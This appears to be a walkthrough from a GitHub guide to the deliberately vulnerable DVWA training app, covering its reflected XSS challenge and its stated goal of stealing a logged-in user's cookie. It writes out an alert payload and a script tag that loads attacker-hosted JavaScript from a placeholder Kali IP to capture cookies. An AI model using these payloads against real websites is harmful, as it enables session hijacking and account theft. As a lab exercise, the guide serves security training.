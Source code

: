 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/README.md">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Note: This challenge is extremely similar to <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>. We'll be using the same web server, exploit, and payload as before, so make sure those are good to go before proceeding.</i>

We see a basic web form with a field we can fill out.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrform.png" width="500">

When we input a name into the field and click the "Submit" button, we see the string "Hello [inputted_name]" returned back to us.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtest.png" width="500">

Interesting. Can we cause an <code>alert</code> popup to occur using this field?

<code>&#60;script&#62;alert(document.cookie)&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrtestalert.png" width="500">

<i>Note that I actually input <code>document.cookie.split(";")[0]</code> as my payload, in order to hide my session ID. Just a privacy thing for me. You don't have to do that, and it impacts nothing besides what you see in my screenshots.</i>

Perfect! Instead of using an <code>alert</code>, let's use our previous exploit/payload combo from <a href="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">Challenge 10</a>.

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrexploit.png" width="500">

If we inspect the form's source code after we input the exploit, we see it's been successfully inserted:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrsource.png" width="500">

And examining the Python web server logs shows the cookie:

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/xssrcookie.png" width="500">

Easy enough! Challenge complete.
